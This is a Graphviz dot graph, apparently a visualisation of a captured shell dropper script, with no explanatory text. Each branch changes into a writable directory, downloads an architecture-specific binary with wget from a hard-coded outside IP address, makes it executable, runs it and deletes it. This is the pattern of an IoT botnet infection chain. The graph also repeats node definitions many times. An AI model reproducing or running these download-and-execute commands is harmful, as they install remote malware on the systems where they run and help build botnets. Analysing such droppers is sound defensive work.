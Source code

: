 digraph {
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 10 [label="||,"];
10 [label="wget http://5.189.171.210/kms "];
10 -> 12 [label=";,"];
12 [label="chmod +x kms "];
12 -> 14 [label=";,"];
14 [label="./kms "];
14 -> 16 [label=";,"];
16 [label="rm -rf kms "];
16 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 28 [label="||,"];
28 [label="wget http://5.189.171.210/kml "];
28 -> 30 [label=";,"];
30 [label="chmod +x kml "];
30 -> 32 [label=";,"];
32 [label="./kml "];
32 -> 34 [label=";,"];
34 [label="rm -rf kml "];
34 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 46 [label="||,"];
46 [label="wget http://5.189.171.210/kar "];
46 -> 48 [label=";,"];
48 [label="chmod +x kar "];
48 -> 50 [label=";,"];
50 [label="./kar "];
50 -> 52 [label=";,"];
52 [label="rm -rf kar "];
52 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 64 [label="||,"];
64 [label="wget http://5.189.171.210/ksh "];
64 -> 66 [label=";,"];
66 [label="chmod +x ksh "];
66 -> 68 [label=";,"];
68 [label="./ksh "];
68 -> 70 [label=";,"];
70 [label="rm -rf ksh "];
70 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 82 [label="||,"];
82 [label="wget http://5.189.171.210/kpc "];
82 -> 84 [label=";,"];
84 [label="chmod +x kpc "];
84 -> 86 [label=";,"];
86 [label="./kpc "];
86 -> 88 [label=";,"];
88 [label="rm -rf kpc "];
88 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 100 [label="||,"];
100 [label="wget http://5.189.171.210/km68 "];
100 -> 102 [label=";,"];
102 [label="chmod +x km68 "];
102 -> 104 [label=";,"];
104 [label="./km68 "];
104 -> 106 [label=";,"];
106 [label="rm -rf km68 "];
106 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 118 [label="||,"];
118 [label="wget http://5.189.171.210/kpc440 "];
118 -> 120 [label=";,"];
120 [label="chmod +x kpc440 "];
120 -> 122 [label=";,"];
122 [label="./kpc440 "];
122 -> 124 [label=";,"];
124 [label="rm -rf kpc440 "];
124 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 136 [label="||,"];
136 [label="wget http://5.189.171.210/ksparc "];
136 -> 138 [label=";,"];
138 [label="chmod +x ksparc "];
138 -> 140 [label=";,"];
140 [label="./ksparc "];
140 -> 142 [label=";,"];
142 [label="rm -rf ksparc "];
142 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 154 [label="||,"];
154 [label="wget http://5.189.171.210/k32 "];
154 -> 156 [label=";,"];
156 [label="chmod +x k32 "];
156 -> 158 [label=";,"];
158 [label="./k32 "];
158 -> 160 [label=";,"];
160 [label="rm -rf k32 "];
160 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 172 [label="||,"];
172 [label="wget http://5.189.171.210/k38 "];
172 -> 174 [label=";,"];
174 [label="chmod +x k38 "];
174 -> 176 [label=";,"];
176 [label="./k38 "];
176 -> 178 [label=";,"];
178 [label="rm -rf k38 "];
178 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 190 [label="||,"];
190 [label="wget http://5.189.171.210/k48 "];
190 -> 192 [label=";,"];
192 [label="chmod +x k48 "];
192 -> 194 [label=";,"];
194 [label="./k48 "];
194 -> 196 [label=";,"];
196 [label="rm -rf k48 "];
196 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 208 [label="||,"];
208 [label="wget http://5.189.171.210/k58 "];
208 -> 210 [label=";,"];
210 [label="chmod +x k58 "];
210 -> 212 [label=";,"];
212 [label="./k58 "];
212 -> 214 [label=";,"];
214 [label="rm -rf k58 "];
214 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 226 [label="||,"];
226 [label="wget http://5.189.171.210/k64 "];
226 -> 228 [label=";,"];
228 [label="chmod +x k64 "];
228 -> 230 [label=";,"];
230 [label="./k64 "];
230 -> 232 [label=";,"];
232 [label="rm -rf k64 "];
232 -> 234 [label=";,"];
234 [label="cd /tmp "];
234 -> 234
236 [label="cd /var/run "];
236 -> 238 [label="||,"];
238 [label="cd /mnt "];
238 -> 240 [label="||,"];
240 [label="cd /root "];
240 -> 242 [label="||,"];
242 [label="cd / "];
242 -> 244 [label="||,"];
244 [label="wget http://5.189.171.210/k68 "];
244 -> 246 [label=";,"];
246 [label="chmod +x k68 "];
246 -> 248 [label=";,"];
248 [label="./k68 "];
248 -> 250 [label=";,"];
250 [label="rm -rf k68 "];
250 -> 251 [label=";,"];
}
